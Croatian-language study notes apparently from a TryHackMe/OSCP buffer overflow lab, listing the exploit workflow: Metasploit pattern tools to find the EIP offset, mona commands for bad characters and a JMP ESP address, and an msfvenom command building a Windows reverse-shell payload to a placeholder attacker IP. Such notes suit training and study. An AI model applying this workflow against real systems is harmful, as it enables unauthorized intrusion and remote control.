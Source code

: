 Spajanje na windows stroj:
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea /tls-seclevel:0

Rad u moni:
Folder za rad za buffer overlow (opcionalno)
!mona config -set workingfolder c:\mona\%p

Nakon pokretanja fuzzera, kreiramo neki random redoslijed unikatnih znakova duljine koje je potrebno da crashamo program plus 200-400

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400 //ako je fuzzing izbacio sa 2000
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600

/opt/metasploit-framework/embedded/bin/ruby (putanja da se moze pokretati na THM masini)

To koristimo kada se program crasha da mozemo pronaci na kojoj lokaciji je registar koji nam treba. (stavljamo podatak na payload)
Ako nam EIP registar ima vrijednost 0x12345678 mozemo pronaci na kojoj lokaciji za offset cemo koristiti preko naredbe:
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 12345678
Također kada se crasha sa payloadom mozemo pogledati registre preko naredbe:

!mona findmsp -distance 2400 //definiramo 2400 da gleda od 0-2400. //ako zelimo od do koristimo -distance 2400 -start 1000 

Tražimo lokaciju EIP-a.
Kada smo ga nasli stavljamo offset kao udaljenost do EIP i retn nesto random poput CCCC

Iduci korak: izbacivanje losih znakova
Potrebno je raditi jer ovisno o aplikaciji, jeziku sustavu stogod, nekada se neki znakovi tretiraju na poseban nacin i ne ponasaju kako bismo htjeli. Zato ih moramo locirati i izbaciti iz našeg payloada.
Koristimo 

!mona bytearray -b "\x00"

kako bi generirali sve moguce kombinacije bytova (0x00 - 0xFF) i testiramo koji ce nam odgovarati, a koji ne.
U nasoj python skripti stvaramo takav array koristeci naredbu (znamo da 0x00 je null i ne moze pa ga obilazimo)

bit_array="".join(f"\\x{x:02x}" for x in range(1, 256))

i stavljamo ga na poziciju payloada.

Kada pošaljemo payload gledamo ESP registar (extended stack pointer) i tražimo znakove koji remete red. (Primjer 01 02 03 07 05) i onda u kodu za generiranje byte arraya izbacujemo 0x07.

Provjeravamo preko ove naredbe i želimo da registri koji su loši na toj listi budu identični registerima koje smo izbacili:

!mona compare -f C:\mona\oscp\bytearray.bin -a <address esp>

Nakon pronalaska losih znakova, trazimo "jump point" (lokacija na koju mozemo skociti) i ne sadrzi lose znakove.

!mona jmp -r esp -cpb "\x00..."

To stavljamo pod retn varijablu

Nakon sto dobijemo adrese moramo generirati payload u msfvenomu.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00..." -f c (ovisno o little ili big endian biramo redoslijed kojim cemo pisati adrese)

Nakon generiranja payloda kopiramo ga u lokaciju payload i dodajemo nop u skriptu bufferExploit.py
Prije slanja exploita, moramo otvoriti listener i to je vise manje to zasada.









